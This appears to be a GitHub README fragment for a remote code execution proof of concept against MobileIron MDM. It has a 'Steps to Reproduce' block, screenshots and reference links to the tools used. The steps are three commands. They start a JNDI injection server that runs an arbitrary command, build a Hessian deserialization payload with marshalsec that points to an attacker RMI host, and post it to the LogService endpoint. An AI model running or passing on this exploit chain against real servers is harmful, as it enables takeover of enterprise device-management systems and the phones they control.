 ## Steps to Reproduce

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 0.0.0.0 -C "<Command>"
java -cp ./marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian SpringAbstractBeanFactoryPointcutAdvisor rmi://<server-ip>:1099/<codebase> > exp
python hessian.py -p exp -u 'https://mobileiron-mdm-instance/mifs/.;/services/LogService'
```
![PoC](poc.png)
![PoC1](Screenshot_218.png)

## References
https://github.com/orangetw/JNDI-Injection-Bypass

https://blog.orange.tw/2020/09/how-i-hacked-facebook-again-mobileiron-mdm-rce.html

https://github.com/mbechler/marshalsec

https://github.com/welk1n/JNDI-Injection-Exploit
